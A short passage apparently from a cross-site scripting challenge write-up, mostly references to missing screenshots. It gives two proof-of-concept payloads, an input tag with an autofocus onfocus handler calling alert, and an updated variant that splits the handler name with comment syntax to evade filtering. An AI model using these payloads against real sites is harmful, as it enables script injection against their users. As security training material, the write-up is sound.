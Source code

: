 ![alt text](../captures/c17_1.png "Figure 2: Identification 2")

Once the vulnerability is detected, we just have to create a valid payload.

Payload: `<input autofocus onfocus='alert(1337)' <--!`
> [UPDATE]: New payload: `<input autofocus on<--! -->focus=alert(1339) <--!`

![alt text](../captures/c17_2.png "Figure 3: Exploitation 1")
